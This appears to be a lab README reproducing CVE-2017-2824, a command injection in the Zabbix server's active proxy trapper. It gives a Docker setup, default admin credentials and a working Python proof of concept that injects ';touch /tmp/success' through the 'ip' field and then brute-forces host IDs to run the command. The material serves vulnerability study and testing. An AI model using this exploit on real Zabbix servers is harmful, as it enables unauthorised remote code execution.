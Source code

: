 # Zabbix Server Active Proxy Trapper Command Injection (CVE-2017-2824)

[中文版本(Chinese version)](README.zh-cn.md)

Zabbix is a server monitoring software that consists of server, agent, and web modules. The web module is written in PHP and is used to display results from the database.

In the Zabbix version 2.0.x prior to 2.0.21, 2.2.x prior to 2.2.18, 2.4.x, 3.0.x prior to 3.0.9, or 3.2.x prior to 3.2.5, there is a code execution vulnerability in Zabbix's server-side trapper command functionality, where specific packets can cause command injection, leading to remote code execution. An attacker can trigger this vulnerability by initiating a request from a Zabbix proxy.

Reference:

- https://talosintelligence.com/reports/TALOS-2017-0325
- https://support.zabbix.com/browse/ZBX-12075

## Environment Setup

Execute the following command to start a complete Zabbix 3.0.3 environment, including the Web interface, Server, 1 Agent, and MySQL database:

```
docker compose up -d
```

After executing the command, run `docker compose ps` to check if all containers have started successfully. If not, try running `docker compose up -d` again.

To exploit this vulnerability, you need to enable the auto-registration feature on the server side. First, log in to the backend as an administrator using the credentials `admin/zabbix`. Go to Configuration->Actions, change the Event source to Auto registration, then click Create action and create an Action with any name:

![](1.png)

In the third tab, create an Operation with type "Add Host":

![](2.png)

Save the settings. This enables the auto-registration feature, allowing attackers to register their servers as Agents.

## Vulnerability Reproduction

Use this simple POC to reproduce the vulnerability:

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

This POC is relatively basic and may need to be executed multiple times. When you see the following result, it indicates successful command execution:

![](3.png)

Enter the server container, and you can see that `/tmp/success` has been successfully created:

![](4.png)

Interested users can improve this POC and submit a Pull Request.
